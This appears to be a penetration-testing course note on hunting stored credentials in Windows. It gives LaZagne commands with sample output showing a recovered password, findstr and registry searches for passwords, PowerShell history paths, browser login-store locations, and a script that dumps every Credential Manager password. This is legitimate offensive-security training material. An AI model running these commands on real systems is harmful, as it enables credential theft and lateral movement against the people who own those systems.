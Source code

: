 # Credential Hunting in Windows

## Windows Credential Hunting

Credential hunting in Windows environments can yield valuable access that allows for privilege escalation or lateral movement. This process involves searching for plain-text credentials in files, database files, config files, saved credentials, CLI history, and more.

### Understanding the Target

Before diving into credential hunting, consider what an IT administrator might be doing on a day-to-day basis and which tasks require credentials:

* Domain administration
* Database management
* Service configuration
* Scheduled task creation
* Remote administration
* Script automation

### Key Search Terms

Whether using GUI or CLI tools, knowing what to search for is critical:

| Common Search Terms |              |             |
| ------------------- | ------------ | ----------- |
| Passwords           | Passphrases  | Keys        |
| Username            | User account | Creds       |
| Users               | Passkeys     | Passphrases |
| configuration       | dbcredential | dbpassword  |
| pwd                 | Login        | Credentials |

### Using LaZagne

LaZagne is a powerful tool for extracting stored credentials from numerous applications.

```cmd
C:\Users\bob\Desktop> start lazagne.exe all
```

This executes LaZagne and runs all included modules. Add the `-vv` option to see detailed background operations.

#### LaZagne Output Example

```
|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


########## User: bob ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: 10.129.202.51
Login: admin
Password: SteveisReallyCool123
Port: 22
```

### Using findstr

Windows' built-in `findstr` command can search for patterns across many file types:

```cmd
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

### Common Credential Storage Locations

#### Configuration Files

* Web.config files
* App.config files
* ApplicationHost.config
* PHP configuration files
* XML configuration files

#### Registry

```powershell
# PowerShell commands to search registry for passwords
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

#### Saved Credentials

```cmd
cmdkey /list
```

#### PowerShell History

```powershell
Get-History
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Additional Hunting Locations

* Passwords in Group Policy in the SYSVOL share
* Passwords in scripts in the SYSVOL share
* Password in scripts on IT shares
* Passwords in web.config files on dev machines and IT shares
* unattend.xml files
* Passwords in the AD user or computer description fields
* KeePass databases
* Files such as pass.txt, passwords.docx, passwords.xlsx

### Browser Stored Credentials

Modern browsers store credentials that can be extracted:

* Chrome: `%LocalAppData%\Google\Chrome\User Data\Default\Login Data`
* Firefox: `%AppData%\Mozilla\Firefox\Profiles\[profile]\logins.json`
* Edge: `%LocalAppData%\Microsoft\Edge\User Data\Default\Login Data`

Browser tools like LaZagne can extract these with proper commands:

```cmd
C:\> lazagne.exe browsers
```

### Service Account Credentials

Services often run with stored credentials:

```powershell
Get-WmiObject -Class Win32_Service | Where-Object {$_.StartName -notlike "LocalSystem" -and $_.StartName -notlike "NT AUTHORITY\*" -and $_.StartName -notlike "NT SERVICE\*"} | Select-Object Name, StartName, State
```

### Credential Manager

Windows Credential Manager stores various login credentials:

```powershell
# PowerShell script to access Credential Manager
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | % { $_.RetrievePassword(); $_ }
```

### Best Practices for Credential Hunting

1. **Be systematic**: Create a checklist of locations to examine
2. **Document findings**: Record all credentials and their sources
3. **Prioritize high-value targets**: Focus on administrative and service accounts
4. **Consider timing**: Some credentials may be exposed only during specific operations
5. **Look for patterns**: Users often reuse passwords with slight variations

By thoroughly exploring these common storage locations, you can often find credentials that provide increased access and privileges within a Windows environment.
